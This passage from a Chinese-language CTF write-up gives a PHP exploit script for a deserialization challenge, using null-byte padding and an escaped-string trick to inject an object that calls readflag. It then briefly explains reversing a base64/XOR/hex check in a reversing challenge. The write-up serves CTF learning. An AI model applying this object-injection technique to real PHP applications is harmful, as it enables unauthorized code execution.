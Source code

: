  ``` php
$key->key = "\\\0key\\\0";

$f = array(unserialize(serialize($key)), 'readflag');

$reflection=new B();

$reflection->b=$f;

$payload_str = '";s:3:"str";' . serialize($reflection) . ';}';

$obj_len = strlen($payload_str);

$add_str = "";

for ($i=0;$i<$obj_len;$i++) $add_str = $add_str . "\0";

echo urlencode("1" . $add_str . str_replace('key";s:7:', 'key";S:5:', $payload_str));、

?>
 ```


将exp序列化后传入参数c

 

![img](https://cdn.jsdmirror.com/gh/Satori5ama/Figurebed@main/img/LZCTF%20-%20Writeup.assets/clip_image028.png)

 

获得flag

![img](https://cdn.jsdmirror.com/gh/Satori5ama/Figurebed@main/img/LZCTF%20-%20Writeup.assets/clip_image030.png)

 

 

 

# Simple_re

查看IDA

![img](https://cdn.jsdmirror.com/gh/Satori5ama/Figurebed@main/img/LZCTF%20-%20Writeup.assets/clip_image032.png)

代码逻辑是输入一个长度为36的字符串，先进行base64编码，再进行异或加密（每个字符异或20），最后转为十六进制串进行比较。

加密均为可逆操作，只需将密文十六进制串转为字符串，异或解密后base64解码即可

 

![img](https://cdn.jsdmirror.com/gh/Satori5ama/Figurebed@main/img/LZCTF%20-%20Writeup.assets/clip_image034.png)

# tmaze
